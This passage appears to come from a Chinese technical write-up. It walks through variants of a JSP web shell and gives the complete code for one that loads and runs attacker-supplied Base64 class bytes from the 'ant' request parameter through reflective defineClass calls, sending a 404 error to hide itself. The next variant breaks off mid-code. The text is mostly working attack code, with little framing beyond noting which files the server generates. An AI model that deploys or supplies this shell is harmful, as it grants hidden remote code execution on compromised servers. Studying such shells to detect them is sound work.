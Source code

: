 #### (3)test3.jsp

基于test2.jsp，通过构造器实现，代码如下：

```
<%@ page import="java.lang.reflect.Method" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="java.security.SecureClassLoader" %>

<%!
    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("ant");

    if (cls != null) {
        Method d= ClassLoader.class.getDeclaredMethod("defineClass",byte[].class, int.class, int.class);
        d.setAccessible(true);
        Constructor c = SecureClassLoader.class.getDeclaredConstructor(ClassLoader.class);
        c.setAccessible(true);
        ClassLoader sysloader = this.getClass().getClassLoader();
        ClassLoader loader =(ClassLoader)c.newInstance(sysloader);
        Class result = (Class)d.invoke(loader,base64Decode(cls),0,base64Decode(cls).length);
        result.newInstance().equals(pageContext);
    }
    else{
        response.sendError(404);
    }
%>
```

通过Web访问后生成以下文件：

- _test3_jsp.java
- _test3_jsp.class

#### (4)test4.jsp

基于test3.jsp，不使用`base64Decode()`，代码如下：

```
<%@ page import="java.lang.reflect.Method" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="java.security.SecureClassLoader" %>

<%
    String cls = request.getParameter("ant");

    if (cls != null) {
        byte[] str=null;
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            str = (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), cls);
```